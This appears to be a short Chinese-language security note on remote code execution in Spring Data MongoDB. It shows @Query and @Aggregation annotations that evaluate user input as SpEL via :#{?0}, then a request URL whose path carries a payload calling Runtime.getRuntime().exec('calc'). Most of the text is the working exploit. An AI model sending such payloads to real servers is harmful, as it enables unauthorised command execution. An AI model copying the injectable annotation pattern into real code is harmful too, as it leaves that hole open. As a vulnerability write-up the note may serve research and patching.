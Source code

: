 # Spring data Mongodb

​	@Qeury和@Aggregation可导致RCE

```
@Aggregation("{ $group: { _id : $lastname, names : { $addToSet : :#{?0} } } }")

@Query(":#{?0}")
```

## 远程RCE

发起请求

```
http://127.0.0.1:8080/get/T(Runtime).getRuntime().exec('calc')
```

